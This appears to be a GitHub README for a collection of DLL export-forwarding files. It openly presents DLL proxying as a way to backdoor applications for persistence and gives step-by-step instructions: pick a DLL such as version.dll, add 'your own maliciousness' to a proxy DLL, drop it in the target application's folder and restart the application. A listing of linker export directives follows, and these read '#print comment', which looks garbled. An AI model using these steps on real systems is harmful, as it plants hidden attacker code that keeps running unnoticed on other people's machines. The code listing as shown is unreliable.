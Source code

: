 # dll-exports
Collection of DLL function export forwards for DLL export function proxying.

Typical usecase is for backdooring applications for persistence purposes. E.g:

1. inspect the target application you wish to backdoor with procmon, see which DLLs it loads via the static IAT. You can clearly see this as the application tries to load Windows DLLs first from the applications own folder before attempting to load them from System32/SysWOW64.
2. pick one, a common target is `C:\Windows\System32\version.dll`
3. fire up Visual Studio, generate a new DLL project
4. add the code from here https://github.com/magnusstubman/dll-exports/blob/main/win10.19042/System32/version.dll.cpp
5. add your own maliciousness e.g. malware, e.g. as I did in https://dumpco.re/blog/alternative-to-lsass-dumping
6. compile - remember to compile for correct architecture
7. copy your newly compiled DLL to the target application's home directory
8. restart application and see it load your code, while preserving functionality


`generator.py` generates a list of DLLs in the target folders and use `pefile` to generate a list of exported functions for each, that are written to individual files containing relevant linker directives. E.g. for C:\Windows\System32\version.dll:


https://github.com/magnusstubman/dll-exports/blob/main/win10.19042/System32/version.dll.cpp
```c
#print comment(linker, "/export:GetFileVersionInfoA=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:GetFileVersionInfoByHandle=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:GetFileVersionInfoExA=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:GetFileVersionInfoExW=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:GetFileVersionInfoSizeA=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:GetFileVersionInfoSizeExA=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:GetFileVersionInfoSizeExW=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:GetFileVersionInfoSizeW=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:GetFileVersionInfoW=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:VerFindFileA=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:VerFindFileW=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:VerInstallFileA=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:VerInstallFileW=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:VerLanguageNameA=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:VerLanguageNameW=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:VerQueryValueA=\"C:\\Windows\\System32\\version.dll\"")
#print comment(linker, "/export:VerQueryValueW=\"C:\\Windows\\System32\\version.dll\"")
```

#### Note

I havn't taken `KnownDLLs` into account.
Keep in mind that the DLLs listed in `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs` *and any* DLL that they load is also considered to be a known DLL, thus the standard search order does not apply.


#### References

- https://silentbreaksecurity.com/adaptive-dll-hijacking/
